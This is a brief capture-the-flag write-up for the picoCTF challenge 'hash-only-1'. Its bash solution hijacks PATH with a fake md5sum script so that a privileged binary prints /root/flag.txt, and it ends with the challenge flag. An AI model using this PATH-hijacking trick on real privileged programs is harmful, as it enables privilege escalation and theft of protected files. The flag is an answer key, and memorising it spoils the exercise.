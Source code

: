 # [Pwn] hash-only-1

## 📚 Overview

> *"Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!"*

## ✨ Solution

```bash
ctf-player@pico-chall$ echo '#!/bin/bash' > /home/ctf-player/md5sum
ctf-player@pico-chall$ echo 'cat /root/flag.txt' >> /home/ctf-player/md5sum
ctf-player@pico-chall$ chmod +x /home/ctf-player/md5sum
ctf-player@pico-chall$ export PATH=/home/ctf-player:$PATH
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt.... 
```

## 🏳 Flag 

`picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_54094e3e}`